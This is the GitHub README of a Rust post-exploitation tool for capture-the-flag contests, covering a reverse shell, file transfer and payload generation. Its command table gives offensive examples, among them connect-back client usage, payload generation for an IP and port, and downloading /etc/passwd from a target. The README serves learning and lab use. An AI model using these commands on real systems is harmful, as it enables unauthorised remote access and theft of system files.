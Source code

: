 # CTF-Tools

CTF-Tools is a Rust-based console application designed for post-exploitation in CTF competitions, featuring essential
utilities for privilege escalation.

This project was built to learn and explore Rust programming.

## Features

- **Interactive reverse shell** (Based on [rustcat](https://github.com/robiot/rustcat))
- **Upload / Download**
- **Auto-reconnect** (When the client loses connection with the server)
- **Chisel integration (TCP/UDP tunnel) [chisel](https://github.com/jpillora/chisel)** (TODO)
- **Multiple client support**

## Usage

The server and the client are included in the same executable. You can download the executable from
the [releases](https://github.com/dd060606/CTF-Tools/releases)
section.

To start the server, use:

```bash
./ctf-tools
```

To start the client, use:

```bash
./ctf-tools <ip> <port>
```

## Available Commands

Here is a list of commands available:

| Command                                          |                           Description                           |                  Example                   |
|:-------------------------------------------------|:---------------------------------------------------------------:|:------------------------------------------:|
| `help (<command name>)`                          |              Displays a list of available commands              |           `help` or `help list`            |
| `shell`                                          |         Establishes a remote shell on the target client         |                                            |
| `info`                                           | Retrieves detailed information from the client. (OS, User, ...) |                                            |
| `list`                                           |                     Lists connected clients                     |                                            |
| `payloads`                                       |                    Lists available payloads                     |                                            |
| `generate <payload name> <platform> <ip> <port>` |            Generates a payload to execute CTF-Tools             |    `gen default linux 10.10.10.10 8888`    |                                            |
| `select <id>`                                    |                        Selects a client                         |                 `select 2`                 |
| `upload <local path> <remote path>`              |              Uploads a file on the target machine               | `upload /home/kali/test.txt /tmp/test.txt` |
| `download <remote path> (<output path>)`         |            Downloads a file from the target machine             |      `download /etc/passwd ./passwd`       |
| `close`                                          |       Stops the CTF-Tools process on the selected client        |                                            |
| `exit`                                           |            Terminates the CTF-Tools console session.            |                                            |

## Build

Ensure you have Rust installed. If not, download it from [rust-lang.org](https://www.rust-lang.org)

```bash
cargo build --release
```

## Legal Disclaimer

This tool is intended for educational purposes only. Unauthorized use of this tool to exploit systems, networks, or data
without permission is illegal. The authors are not responsible for any misuse or damage caused by this tool. Always
obtain proper authorization before using any security tool.

